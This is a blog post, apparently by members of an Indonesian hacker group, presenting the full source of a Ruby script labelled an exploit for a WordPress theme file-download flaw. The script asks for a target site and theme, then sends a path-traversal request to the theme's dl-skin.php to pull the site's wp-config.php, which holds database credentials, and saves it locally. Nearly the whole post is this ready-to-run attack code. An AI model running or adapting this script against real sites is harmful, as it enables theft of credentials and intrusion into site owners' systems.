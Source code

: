 ```yaml
---
layout: post
title: "Exploit AFDFDE for Ruby"
date: 2014-08-26 23:17:19 +0700
comments: true
categories: [exploit, ubuntu]
description: Exploit AFDFDE for Ruby
keywords: Exploit AFDFDE for Ruby
---
```


## ruby-AFDFDE
*read this exploit [AFDFDE](https://github.com/SurabayaBlackhat/AFDFDE)*

#### Require
* [ruby](https://www.ruby-lang.org/en/downloads/)
* [rubygems](https://rubygems.org/pages/download) 
* [curb](https://rubygems.org/gems/curb)

#### Credit
* [Vico Ervanda](https://github.com/VicoErvanda)
* [SunDi3yansyah](https://github.com/SunDi3yansyah)
* CaFc Versace
* Meninbox
* All Staff/Member SurabayaBlackhat
<!-- more -->
#### License
[GNU Affero General Public License](http://www.gnu.org/licenses/agpl-3.0.html)

### Souce
{% codeblock ruby-AFDFDE.rb %}
#!/usr/bin/ruby
require 'curb';
require 'fileutils';
require 'uri';

#create
urlInvalid = false;
themeInvalid = false;
themeCollection = ["awake","construct","dejavu",
					"echelon","elegance","fusion",
						"infocus","megastream","method",
							"modular","myriad","oakrealty","persuasion"];
def valid?(url)
	#url validator
  uri = URI.parse(url)
  uri.kind_of?(URI::HTTP)
rescue URI::InvalidURIError
  false
end

#coloring
def colorize(text, color_code)
  "\e[#{color_code}m#{text}\e[0m"
end
#declare the color
def green(text); colorize(text, 32); end
def red(text); colorize(text, 31); end
def yellow(text); colorize(text, 33); end
def blue(text); colorize(text, 34); end
def purple(text); colorize(text, 35); end
def cyan(text); colorize(text, 36); end

#begin step
puts cyan("//github.com/kampoeng/ruby-AFDFDE") + "    : " + red("ruby-AFDFDE Repository")
puts cyan("//github.com/SurabayaBlackhat/AFDFDE") + " : " + red("Exploit on Github SBH")
puts cyan("//fb.com/freeeaks") + "                    : " + purple("Vico Ervanda");
puts cyan("//fb.com/adiebiazajah") + "                : " + purple("SunDi3yansyah");
puts cyan("//fb.com/100004896060156") + "             : " + purple("CaFc Versace");
puts cyan("//kampoeng.co.id") + "                     : " + green("Kampoeng Network") + "\n\n";
puts green("Theme ID : ");
for i in 0..12
	puts purple(i.to_s) + " : " + yellow(themeCollection[i]);
end
puts "\n";
begin
	#trying to get a valid url
	if urlInvalid == false
		puts green("Tolong masukan url yang valid");
	else
		puts red("url tidak valid");
	end
	urlName = gets.gsub("\n","");
	if(valid?(urlName) === true)
		isUrlValid = 0;
	end;
	urlInvalid=true;
end while isUrlValid != 0;
#url now valid, tell the user
puts yellow("Situs yang vulnerable adalah : ") + cyan(urlName);
begin
	#trying to get theme identifier
	if themeInvalid == false
		puts green("Tolong masukan tema yang digunakan");
		
	else
		puts red("tema tidak valid");
	end
	themeName = gets.gsub("\n","");
	if themeName.scan(/([^0-9]+)/).count == 0 and themeName != ""
		if themeName.to_i < 13 and themeName.to_i > -1
			isThemeValid = 0;
		end
	end
	themeInvalid = true;
end while isThemeValid != 0;
#ok theme is valid, tell the user
puts yellow("Tema yang terpilih adalah : ") + cyan(themeCollection[themeName.to_i]);

#download the content using post method
c = Curl.post( urlName + "/wp-content/themes/"+themeCollection[themeName.to_i] + "/lib/scripts/dl-skin.php",{
						'_mysite_download_skin' => '../../../../../wp-config.php'
						}) do |curl|
		curl.ssl_verify_peer = false
		curl.headers["User-Agent"] = "BlackBerry/3.5.0"
	end
#assign the result
text = c.body_str;

#tell the user, what title we use for write to file
begin 
	puts green("Please specify a file name (a-zA-Z0-9)");
	fileName = gets.gsub("\n","");
	isFileNameValid = fileName.scan(/([^a-zA-Z0-9]+)/).length;
end while isFileNameValid != 0
#title ok tell the user
puts yellow("Judul file yang terpilih adalah : ") + cyan(fileName);

			f = File.open(fileName + ".txt", 'w')
			f.write(text)
			f.close
			puts fileName + ".txt - " + green("Downloaded")
#end step
{% endcodeblock %}

### [View Project on Github](https://github.com/kampoeng/ruby-AFDFDE)

<div class="github-widget" data-repo="kampoeng/ruby-AFDFDE"></div>